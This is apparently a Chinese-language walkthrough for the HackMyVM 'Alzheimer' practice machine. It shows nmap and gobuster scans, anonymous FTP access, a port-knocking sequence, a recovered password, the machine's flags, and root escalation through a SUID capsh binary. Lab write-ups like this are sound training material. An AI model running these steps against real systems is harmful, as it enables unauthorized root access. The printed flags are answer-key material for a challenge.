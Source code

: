 ```yaml
---
{"dg-publish":true,"tags":["HMV","SUID提权","knock"],"难度":"😅","作者":"sml","系统":"Linux","permalink":"/24-渗透/HMV/9.Alzheimer/","dgPassFrontmatter":true,"noteIcon":"2","created":"2024-11-22T19:13:18.856+08:00"}
---
```



## 1. 基本信息^toc

- [[24-渗透/HMV/9.Alzheimer#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/9.Alzheimer#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/9.Alzheimer#3. ftp匿名登录\|3. ftp匿名登录]]
- [[24-渗透/HMV/9.Alzheimer#4. 提权\|4. 提权]]

```
靶机链接：https://hackmyvm.eu/machines/machine.php?vm=Alzheimer
```


```
作者：sml
```

```
难度：死题
```


```
知识点：knock命令、SUID提权（capsh）
```

## 2. 信息收集

端口扫描

```Bash
┌──(root㉿kali)-[/home/kali]
└─# nmap -sS 192.168.9.11 -p 1-65535
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-05 23:23 CST
Nmap scan report for 192.168.9.11
Host is up (0.00034s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE    SERVICE
21/tcp open     ftp
22/tcp filtered ssh
80/tcp filtered http
MAC Address: 08:00:27:93:BB:DC (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 9.18 seconds
```
对80 22进行了限制

## 3. ftp匿名登录

```Bash
ftp 192.168.9.11
anonymous
```
里面有一个.secretnote.txt 文件

查看

```Bash
cat .secretnote.txt 
I need to knock this ports and 
one door will be open!
1000
2000
3000
Ihavebeenalwayshere!!!
```
解密 

意思是我们需要访问这3000个端口 然后就会有一个服务打开

依次访问这些端口

```Bash
knock 192.168.9.11 1000 2000 3000 -v
```
然后重新扫描一下

```Bash
┌──(root㉿kali)-[/home/kali]
└─# nmap -sS 192.168.9.11 -p 1-65535
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-05 23:30 CST
Nmap scan report for 192.168.9.11
Host is up (0.00023s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:93:BB:DC (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 8.12 seconds
```
可以发现22 80都开放了

访问网站

啥都没有

直接扫目录

```Bash
┌──(root㉿kali)-[/home/kali]
└─# gobuster dir -u http://192.168.9.11/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.9.11/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/home                 (Status: 301) [Size: 185] [--> http://192.168.9.11/home/]
/admin                (Status: 301) [Size: 185] [--> http://192.168.9.11/admin/]
/secret               (Status: 301) [Size: 185] [--> http://192.168.9.11/secret/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```
> 敲了半天开不了门。目录访问不了。后面看wp发现是网卡问题

这里直接给flag

```Bash
root@alzheimer:~# cat /root/root.txt
HMVlovememories
root@alzheimer:~# cat /home/medusa/user.txt
HMVrespectmemories
root@alzheimer:~# 
```
还是看下题目的考点吧。

敲门成功后访问网站根目录

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/9.Alzheimer.001.png)

下面应该是一个摩斯密码

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/9.Alzheimer.002.png)

```Bash
OTHINGM
```
这个应该就是medusa的密码了

但是是不对的

继续看网站的其他目录

admin目录是空的

home目录下的文件提示我们pass在Home目录，但不是这个home目录

secret目录提示我们密码在这个secret目录的某个目录下

那密码就是在/secret/home目录

/secret/home目录的文件给了个啥用没有的提示

根目录给我们说他将密码写入了一个.txt文件

到目前为止，唯一获取到的.txt文件就是.secretnote.txt

```Bash
I need to knock this ports and 
one door will be open!
1000
2000
3000
Ihavebeenalwayshere!!!
```
里面的Ihavebeenalwayshere!!! 就是medusa的密码

## 4. 提权

虽然flag有了，但还是看看提权部分吧

拿到用户medusa的权限后

```Bash
medusa@alzheimer:/root$ find / -perm -4000  2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/sbin/capsh
```


```Bash
capsh --gid=0 --uid=0 --
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/9.Alzheimer.003.png)


